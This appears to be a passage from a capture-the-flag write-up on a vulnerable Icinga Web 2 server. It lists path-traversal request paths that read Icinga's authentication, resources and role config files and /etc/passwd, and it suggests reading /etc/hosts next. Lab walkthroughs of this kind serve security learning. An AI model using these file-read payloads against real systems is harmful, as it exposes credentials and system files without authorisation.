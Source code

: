 ![](/assets/img/cerberus/2.png)

only root and matthew have shell, get more file for gather many information for this stuff. you can read in [here](https://exploit-notes.hdks.org/exploit/web/icinga-web-pentesting/) for the payload list:

```bash
/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/authentication.ini
/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/config.ini
/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/resources.ini
/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/roles.ini
/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/passwd
```

gather information on `/etc/hosts` file.
